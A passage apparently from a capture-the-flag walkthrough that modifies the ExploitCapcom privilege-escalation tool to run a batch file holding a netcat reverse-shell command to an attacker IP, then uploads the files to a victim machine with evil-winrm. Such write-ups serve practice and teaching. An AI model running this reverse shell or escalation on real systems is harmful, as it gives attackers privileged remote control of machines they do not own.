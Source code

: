 Once that's compiled, we'll move to the executable `ExploitCapcom.exe`. We'll need to make a change to the `LaunchShell()` function to run our desired command in a privileged context. We'll create a simple batch file (`C:\temp\nc.exe 10.10.14.251 4444 -e cmd.exe`) that will run a `netcat` command to open a reverse shell. We'll add the command to execute the batch file at line 292. Once that's done we'll compile it.

![](images/exploitcapcom.PNG)

Okay, we've got our files. Let's upload them to a `temp` directory on the victim machine with `evil-winrm`. We'll have to upload a `netcat` executable as well so that our batch file works.
